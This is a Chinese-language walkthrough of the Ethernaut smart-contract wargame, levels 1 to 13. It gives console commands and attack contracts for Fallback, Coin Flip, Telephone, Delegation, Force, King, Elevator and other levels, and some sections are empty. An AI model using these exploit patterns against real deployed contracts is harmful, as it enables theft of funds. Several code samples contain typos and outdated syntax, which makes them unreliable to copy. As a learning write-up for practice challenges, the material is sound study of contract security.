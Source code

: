 ###  1. 你好Ethernaut
##### 按照提示输入以下指令
**await contract.info()**
"You will find what you need in info1()."

**await contract.info1()**
"Try info2(), but with "hello" as a parameter."

**await contract.info2("hello")**
"The property infoNum holds the number of the next info method to call."

**await contract.infoNum()**
42

**await contract.info42()**
"theMethodName is the name of the next method."

**await contract.theMethodName()**
"The method name is method7123949."

**await contract.method7123949()**
"If you know the password, submit it to authenticate()."

**await contract.password()**
"ethernaut0"

**await contract.authenticate("ethernaut0")**
### 2. Fallback
##### 对合约转账1wei从而改变其balance,调用sendTransaction函数触发fallback获取合约的owner变为自己的地址，再用withdraw转走合约的代币ine
await getBalance(instance)

await contract.contribute({value:1})

await getBalance(instance)

await contract.sendTransation({value:1})

await contract.owner()

await contract.withdraw()
### 3. Fallout
##### 查看合约的owner,调用函数来更换合约的owner 构造函数名称与合约名称不一致使其成为一个public类型的函数，同时在构造函数中指定了函数调用者直接为合约的owner，所以我们可以直接调用构造函数Fal1out来获取合约的ower权限。
await contract.owner()

await contract.Fallout()

await contract.owner()
### 4. Coin Flip
##### 写攻击合约，攻击十次
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import '../CoinFlip.sol';

contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function attack(address_victim) public returns (bool) {
    CoinFlip coinflip = CoinFlip( victim);
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? ture : false;
    coinflip.flip(side);
    return side;
   }
 }
 连续attack10次
 ### 5.Telephone
 ##### 调用攻击合约，调用受害者合约，输入自己的地址从而改变受害者合约的owner
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '../Telephone.sol';
contract TelephoneAttack{

    Telephone phone;
    
    constructor(address _telephone) {
        phone = Telephone(_telephone);
    }
    
    fuction attack(address _owner) public {
       phone.changeOwner(_owner);
    }
 }

await contract.owner();
### 6. Token
##### 调用transfer函数向自己转币
await contract.balanceOf(player)

player

contract.transfer(地址)
### 7.Delegation
##### 通过delegatecall调用pwn函数更换owner
player

await contract.address

contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)});

await contract.owner

await contract.owner()
### 8.Force
##### 创建一个合约，转入部分eth，调用selfdestruct将新合约中的eth发给合约
await contract.address()

pragma solidity ^0.8.0;
contract Force {
 function Force() public payable {}
 function exploit(address _ target) public {
    selfdestruct(_ target);
 }
}
调用ForceSendEter(),传入合约地址
### 9. Vault
##### 

### 10. King
##### 部署攻击合约进行revert
pragma solidity ^0.8.0;

contract attack{
    function attack(address _ addr) public payable{
        _ addr.call.gas(10000000).value(msg.value)();
    }
    function () public {
        revert();
    }
}
prize = await contract.prize()

fromWei(print.toNumber())

await contract.address

await contract.king()
### 11.Re-entrancy
##### 
await getBalance(comtract)

instance
### 12. Elevator
##### 调用attack来实施攻击
pragma solidity ^0.8.0;
interface Building {
  function isLastFloor(uint) view public returns (bool);
}
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _ floor) public {
    Building building = Building(msg.sender);
    if (!building.isLastFloor(_ floor)) {
      floor = _ floor;
      top = building.isLastFloor(floor);
    }
  }
}

contract BuildingEXP{
    Elevator ele;
    bool t = true;
    function isLastFloor(uint) view public returns (bool) {
        t = !t;
        return t;
    }
    function attack(address _ addr) public{
        ele = Elevator(_ addr);
        ele.goTo(5);
    }
}
await contract.address

await contract.floor()

await contract.top()

await contract.top()
### 13. Privacy
##### 














